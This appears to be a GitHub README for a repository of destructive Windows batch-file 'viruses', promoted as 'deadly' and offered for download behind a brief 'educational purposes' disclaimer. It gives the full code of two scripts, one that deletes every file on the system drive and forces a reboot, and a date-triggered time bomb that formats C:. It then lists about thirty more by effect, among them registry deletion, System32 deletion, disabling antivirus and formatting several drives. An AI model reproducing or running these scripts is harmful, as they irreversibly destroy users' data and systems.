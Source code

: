 <h1 align="center"> Batch Viruses</h1>

## An awesome collection of different kinds of Computer Viruses written in Batch File.

---
<img src="https://user-images.githubusercontent.com/73777108/149873561-ace30728-a82f-466b-8e43-0433c2c2e87d.png" align="right">

Create amazing yet Deadly viruses with small yet deadly codes. These can be created with just Notepad, and even be downloaded from here.
The viruses here are mostly very dangerous.



---
## ⚠️ALERT: 

- These are only for educational purposes. 
- Never try them on your own device until you are sure of what you are doing.
- Me, or any other contributor to this repo will not be responsible for any damage to your device.
- Handle files with care and awareness.
- Most damages can't be restored or recovered.

---

# The Awesome List of Computer Viruses!


1. Deletes all content of a drive


<details><summary> Read More </summary>
 
  
  
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus1.bat">virus1.bat</a></p>
<pre><code> @<span class="hljs-built_in">echo</span> off
<span class="hljs-built_in">del</span> <span class="hljs-variable">%systemdrive%</span>\*.* /f /s /q
shutdown -r -f -t <span class="hljs-number">00</span>
</code></pre>
 

  </details>



2. Time Bomb Virus, formats C: on 25 November 2023


<details><summary> Read More </summary>
  
  
  
<p><a href="https://github.com/SparkScratch-P/batch-virus/blob/main/viruses/virus2.bat">virus2.bat</a></p>
<pre><code><span class="hljs-keyword">If</span> <span class="hljs-variable">%date%</span> <span class="hljs-keyword">NEQ</span> <span class="hljs-number">2023</span>/<span class="hljs-number">11</span>/<span class="hljs-number">25</span> <span class="hljs-keyword">goto</span> <span class="hljs-keyword">exit</span>
<span class="hljs-built_in">format</span> C: /y &gt;<span class="hljs-built_in">nul</span>
:<span class="hljs-keyword">exit</span>
<span class="hljs-keyword">exit</span>
</code></pre><p>The Date, Time, and the Drive to be formatted can be changed.</p>
  
   

  </details>


virus3.bat
Crash Ur Computer of Windows Xp
virus30.bat
overload with unlimited background processes

virus4.bat
Delete Key Registry Files [DANGEROUS]
virus5.bat
The Most Simple Virus To Crush The Window. Del C:
virus6.bat
Endless Notepads
virus7.bat
Disable Internet Permanently
virus8.bat
crazy caps lock
virus9.bat
Endless Backspace

virus10.bat
Disable the Antivirus
virus11.bat
Task-kill some apps
virus12.bat
Command Line Notepad
yesterday
virus13.bat
CD/ROM popper with malicious popups
yesterday
virus14.bat
CD drive popup
yesterday
virus15.bat
stop current internet access
virus16.bat
Format all Drives from C to J
virus17.bat
Delete Entire Registry
virus18.bat
Crash PC for ever
virus19.bat
Application bomber
virus20.bat
Delete System 32 Folder
virus21.bat
Disgust and shut down!
virus22.bat
Destroy-shutdown with popup
virus23.bat
Shutdowns Computer Everytime It Is Turned On
virus24.bat
Change useful random files to on-working txt files
virus25.bat
system meltdown
virus26.bat
flood internet
virus27.bat
Matrix virus
virus28.bat
Bloat randon folder
virus29.bat
User Account Bloatware
virus31.bat
Rabs killer and system crasher virus
virus32.bat
Show incognito history
virus33.bat
Delete entire system
virus34.bat
Create virus34.bat
virus35.bat
txt bloater
